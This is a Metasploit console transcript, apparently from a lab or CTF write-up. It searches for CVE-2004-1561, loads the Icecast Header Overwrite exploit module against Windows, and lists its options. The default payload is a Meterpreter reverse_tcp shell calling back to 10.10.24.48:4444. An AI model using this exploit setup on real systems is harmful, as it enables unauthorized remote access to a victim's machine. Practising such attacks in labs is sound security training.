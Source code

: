 ```bash
                    ############      ##
                       ########        ###
                      #########        #####
                    ############      ######
                   ########      #########
                     #####       ########
                       ###       #########
                      ######    ############
                     #######################
                     #   #   ###  #   #   ##
                     ########################
                      ##     ##   ##     ##
                            https://metasploit.com


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: View all productivity tips with the tips command

msf5 > search cve-2004-1561

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


msf5 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/icecast_header) > 

msf5 exploit(windows/http/icecast_header) > options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.24.48      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


```